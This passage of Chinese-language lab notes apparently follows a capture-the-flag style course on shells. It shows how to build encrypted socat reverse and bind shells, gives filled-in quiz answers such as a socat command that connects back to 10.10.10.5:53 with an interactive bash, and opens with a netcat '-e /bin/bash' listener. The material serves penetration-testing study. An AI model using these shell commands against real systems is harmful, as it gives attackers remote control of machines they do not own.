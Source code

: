 我们首先需要生成证书才能使用加密的 shell。这在我们的攻击机器上最容易做到：
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt 
```
此命令创建一个 2048 位 RSA 密钥和匹配的证书文件，自签名，有效期不到一年。当您运行此命令时，它会要求您填写有关证书的信息。这可以留空，或随机填充。 然后我们需要将两个创建的文件合并到一个 `.pem` 文件中： 

`cat shell.key shell.crt > shell.pem`

现在，当我们设置我们的反向 shell 侦听器时，我们使用： 
```bash=
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 
```
    
这将使用我们生成的证书设置一个 OPENSSL 侦听器。 `verify=0` 告诉连接不要费心尝试验证我们的证书是否已由公认的权威机构正确签名。请注意，必须在正在侦听的任何设备上使用该证书。

要返回连接，我们将使用： 
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

相同的技术适用于 bind shell： 
目标：
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes 
```

攻击者： 
```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0
```
- 再次注意，即使对于 Windows 目标，证书也必须与侦听器一起使用，因此需要为 bind shell 复制 PEM 文件。 下图显示了来自 Linux 目标的 OPENSSL 反向 shell。和往常一样，目标在右边，攻击者在左边：

![](https://i.imgur.com/uqG9bL8.png)

这种技术也适用于上一个任务中介绍的特殊的、仅限 Linux 的 TTY shell —— 弄清楚它的语法将是这个任务的挑战。如果您正在努力获得答案，请随意使用 Linux 练习盒（可部署在房间的尽头）进行实验。

**回答以下问题：**
1. 使用上一个任务中的 tty 技术设置 OPENSSL-LISTENER 的语法是什么？使用端口 53 和一个名为“encrypt.pem”的 PEM 文件

```bash
socat OPENSSL-LISTEN:<53>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0 
```
2. 如果您的 IP 是 10.10.10.5，您将使用什么语法连接回此侦听器？

```bash
socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### 2.8 常用的 Shell Payloads
> 有效负载表示 payload 的意思


我们很快就会考虑使用 `msfvenom` 生成有效负载，但在此之前，让我们使用我们已经介绍过的工具看一下一些常见的有效负载。 

之前的任务提到我们将研究使用 netcat 作为 bind shell 侦听器的一些方法，因此我们将从它开始。在某些版本的 netcat 中（包括 Kali 位于 `/usr/share/windows-resources/binaries` 处的 nc.exe Windows 版本，以及 Kali 自身所用的版本：`netcat-traditional`）有一个 `-e` 选项，它允许您在连接上执行一个程序。例如一个监听器：
`nc -lvnp <端口> -e /bin/bash` 
